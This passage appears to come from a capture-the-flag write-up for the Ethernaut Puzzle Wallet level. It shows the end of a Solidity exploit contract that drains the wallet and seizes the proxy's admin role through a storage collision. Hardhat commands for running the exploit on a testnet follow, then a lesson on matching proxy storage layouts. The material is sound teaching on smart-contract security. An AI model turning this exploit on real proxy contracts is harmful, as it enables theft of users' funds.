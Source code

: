 ```solidity
        wallet.execute(attacker, contractBalance, "");
        
        // Step 5: Become admin via storage collision
        wallet.setMaxBalance(uint256(uint160(attacker)));
        
        require(proxyContract.admin() == attacker, "Failed to become admin");
    }
    
    receive() external payable {}
}
```

### Execution Steps

1. **Deploy the PuzzleWallet contracts:**
   ```shell
   npx hardhat deploy --tags puzzle-wallet --network sepolia
   ```

2. **Deploy the exploit contract:**
   ```shell
   TARGET_ADDRESS=0xYourProxyAddress npx hardhat deploy --tags puzzle-wallet-solution --network sepolia
   ```

3. **Execute the exploit:**
   ```shell
   EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xYourProxyAddress npx hardhat run scripts/level-24-puzzle-wallet/execute-puzzle-wallet-exploit.ts --network sepolia
   ```

## Key Takeaways

### 1. Storage Layout Must Match in Proxy Patterns

The CRITICAL rule for proxy patterns:

```solidity
// ❌ WRONG: Different storage layouts
contract Proxy {
    address public pendingAdmin;  // Slot 0
    address public admin;         // Slot 1
}

contract Implementation {
    address public owner;         // Slot 0 - COLLISION!
    uint256 public maxBalance;    // Slot 1 - COLLISION!
}

// ✅ CORRECT: Matching storage layouts
contract Proxy {
    address public admin;         // Slot 0
    address public implementation;// Slot 1
}

contract Implementation {
    address public admin;         // Slot 0 - MATCHES!
    address public implementation;// Slot 1 - MATCHES!
    address public owner;         // Slot 2 - New variables OK
    uint256 public maxBalance;    // Slot 3
}
```
